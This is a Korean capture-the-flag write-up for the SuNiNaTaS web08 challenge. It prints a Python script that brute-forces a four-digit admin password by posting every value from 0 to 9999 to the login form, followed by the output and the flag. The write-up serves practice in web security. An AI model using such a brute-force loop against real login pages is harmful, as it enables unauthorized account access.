

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

Hint로 password가 0~9999라고 한다. Brute Force로 뚫으라는 것 같다.

```html
<!-- Hint : Login 'admin' Password in 0~9999 -->
<!-- M@de by 2theT0P -->
```

action은 web08.asp이고 데이터는 id와 pw이다.

```html
    <form method="post" action="./web08.asp">
... 생략 ...
            <tr height="30" class="table_main">
                <td width="120" align="center" bgcolor="cccccc"><font size="2"><b>ID</b></font></td>
                <td width="120" align="center" bgcolor="cccccc">
                    <input type="text" name="id" style="width: 90"></td>
            </tr>
            <tr height="30" class="table_main">
                <td align="center" bgcolor="cccccc"><font size="2"><b>PW</b></font></td>
                <td align="center" bgcolor="cccccc">
                    <input type="password" name="pw" style="width: 90" maxlength="4"></td>
            </tr>
... 생략 ...
```

다음과 같은 Python script로 password를 알아내자.

```python
import urllib
import urllib.request

url     = 'http://suninatas.com/challenge/web08/web08.asp'
request = urllib.request.Request(url)
response= urllib.request.urlopen(request)
cookie  = response.info().get_all('Set-Cookie')[0]


url     = 'http://suninatas.com/challenge/web08/web08.asp'
for i in range(10000):
    data    = urllib.parse.urlencode({'id':'admin', 'pw':str(i)}).encode()
    request = urllib.request.Request(url, data = data)
    request.add_header('Cookie', cookie)
    try:
        response= urllib.request.urlopen(request, timeout=2.0)
        result  = response.read().decode()
        if 'Password Incorrect!' not in result:
            print('{} Password : {}'.format(result, i))
            break
    except:
        print('{}  Except'.format(i))
        pass

[Output]
... 생략 ...
                <td colspan="2" align="center" bgcolor="cccccc">Authkey : l3ruteforce P@ssword</td>
... 생략 ...
```


# **FLAG**

**l3ruteforce P@ssword**